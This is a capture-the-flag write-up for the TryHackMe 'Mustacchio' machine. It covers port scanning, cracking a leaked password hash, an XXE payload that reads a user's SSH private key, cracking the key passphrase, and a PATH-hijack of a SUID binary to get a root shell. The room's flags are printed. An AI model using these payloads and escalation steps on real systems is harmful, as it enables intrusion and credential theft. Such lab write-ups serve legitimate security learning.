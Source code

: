 > Mustacchio | boot2root

# Nmap
 
nmap -sC -sV -T4 -Pn -vv -p- -oN nmap/initial 10.10.108.197

```bash
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Mustacchio | Home
8765/tcp open  http    syn-ack nginx 1.10.3 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
```

# Dirsearch

dirsearch -u http://10.10.108.197 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

```bash
301 -  315B  - /images  ->  http://10.10.108.197/images/
301 -  315B  - /custom  ->  http://10.10.108.197/custom/
301 -  314B  - /fonts  ->  http://10.10.108.197/fonts/
```

In /custom folder, in /js sub dir, we can find `users.bak`.

```
��Y�tableusersusersCREATE TABLE users(username text NOT NULL, password t��0]admin1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
```

Looks like a hash for user `admin`. And we can decode in online using Crackstation. `bulldog19`

But we can't ssh using that username! Finally we move to port 8765. Here our creds. are accepted! Inspecting the page-source we can find that we have a comment line.

```
<!-- Barry, you can now SSH in using your key!-->
```

We can see in that code that we are expected XML input and looking at PayloadAllTheThings we can find XXE basic payload. Let's modify it!

```xml
<?xml version="1.0"?>
<!DOCTYPE author [<!ENTITY read SYSTEM 'file:///home/barry/.ssh/id_rsa'>]>
<root><author>&read;</author></root>
```

And wow!! We have our output! Let's save it, gove corresponding permission and ssh. The SSH private key is password protected! Let's crack it using john.

python ssh2john.py ~/TryHackMe/Mustacchio/id_rsa > ~/TryHackMe/Mustacchio/hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

```
urieljames
```

# user.txt

```
62d77a4d5f97d47c5aa38b3b2651b831
```

Looking for SUID bits we can find something interesting!

find / -perm -u=s -type f 2>/dev/null

```bash
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/at
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/newuidmap
/usr/bin/gpasswd
/home/joe/live_log => This one!
/bin/ping
/bin/ping6
/bin/umount
/bin/mount
/bin/fusermount
/bin/su
```

Looks like an elf file and on running it we can see that it is Nginx's log. Now we can use strings to see readable characters. We got some interesting things.

```
Live Nginx Log Reader
tail -f /var/log/nginx/access.log
demo.c
crtstuff.c
```

So we have tail command here! Let's change the path and create our own find executable.

# tail

```python
#!/usr/bin/python3
import pty
pty.spawn("/bin/bash")
```

Change the permissions and execute the ELF file. We are in as root!

# root.txt

```
3223581420d906c4dd1a5f9b530393a5
```